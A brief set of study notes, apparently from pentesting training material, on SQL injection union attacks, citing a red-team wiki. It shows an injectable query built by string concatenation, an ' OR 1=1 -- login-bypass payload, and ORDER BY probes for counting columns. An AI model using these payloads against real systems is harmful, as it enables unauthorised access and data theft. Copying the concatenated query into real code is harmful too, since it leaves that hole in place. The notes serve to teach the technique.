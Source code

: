 Lucas ref: https://red.infiltr8.io/web-pentesting/web-vulnerabilities/server-side/sql-injection/union-attacks

```bash
# SQL example query
$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";

# Basic SQL injection example
offsec' OR 1=1 -- //                       '

# Count the amount of columns 
' ORDER BY 1-- //                          '
' ORDER BY 5-- //                          '
	# Breaking at N means there are N-1 columns

```